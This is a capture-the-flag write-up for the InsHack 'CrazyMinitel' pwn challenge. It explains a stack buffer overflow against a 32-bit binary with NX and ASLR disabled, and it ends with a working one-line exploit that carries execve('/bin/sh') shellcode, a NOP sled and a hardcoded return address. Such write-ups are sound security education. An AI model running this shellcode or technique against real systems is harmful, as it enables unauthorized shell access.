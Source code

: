 ```yaml
---
title: "InsHack -- CrazyMinitel Writeup"
categories:
  - InsHack
tags:
  - CTF
  - pwn
---
```


> My minitel has gone crazy! Help me please you kind stranger!

<div class="notice--info">
<strong>Name</strong>: CrazyMinitel<br>
<strong>Category</strong>: pwn<br>
<strong>Points</strong>: 125<br>
<strong>Solves</strong>: 77<br>
<strong>Given</strong>: <code>crazy-minitel</code><br> <!-- Link the files here to my repository with it -->
</div>


## Checksec
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled       (<- we CAN use shellcode)
    PIE:      No PIE
    ASLR:     DISABLED          (<- we CAN realiably know where the stack is)


# Solution
The program just echos the input. If the input is large enought the buffer is overflowed, so, since we can use shellcode lets just return to our buffer in the stack and run `execve("/bin/sh", NULL, NULL)`. <br><br>
We can realiably return to our buffer because we can first get its location in gdb and we know it wont change since ASLR is disabled. (It might change a little bit since environment variables are stored on the stack and if for example you change directory, $PWD will have a different value and shift the stack arround) <br>
To bypass that we use a **nop sled**. A nop sled it just a bunch of nops (assembly instruction for no operation, aka does nothing), making it possible for us to jump to anywhere in the nop sled range and execute our shellcode regardless of jumping perfectly to the start of our shellcode or anywhere in the NOPS.

The solution is simply:
 - We send `nop..nop..nop...shellcode` for a total length of 230.
 - Than we send `A`'s to pad until we get to the point on the stack where we are about to overwrite the `saved EIP`.
 - Ovewrite the `saved EIP` with a value pointing to somewhere in the middle of the nops (find this in gdb). In this case it was `0xbffffaa0`. We write it as `\xa0\xfa\xff\xbf` because the bytes are stored in little endian.

```
./vuln $(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'.rjust(230,'\x90') + 'A'*(268-230) + '\xa0\xfa\xff\xbf'")
```